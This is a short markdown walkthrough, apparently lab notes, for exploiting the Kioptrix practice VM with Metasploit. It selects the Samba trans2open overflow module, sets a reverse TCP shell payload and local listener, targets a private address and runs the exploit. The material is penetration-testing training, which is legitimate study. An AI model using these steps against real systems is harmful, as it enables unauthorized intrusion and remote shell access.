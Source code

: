 # Metasploit

## Kioptrix example


#### 1. Launch Metasploit :

```sh
$ msfconsole
```

#### 2. Search for exploit :

```sh
msf6 > search trans2open

Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   ...

```

#### 3. Select module :

Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open

```sh
msf6 > use 1

[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
```

#### 4. Check options :

```sh
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<
                                      path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.27     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce
```

#### 5. Select payload :

```sh 
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp

payload => linux/x86/shell_reverse_tcp
```

#### 6. Select targets :

```sh
msf6 exploit(linux/samba/trans2open) > set rhosts 192.168.0.82
```

#### 7. Run the attack :

```sh 
msf6 exploit(linux/samba/trans2open) > exploit  #or run
```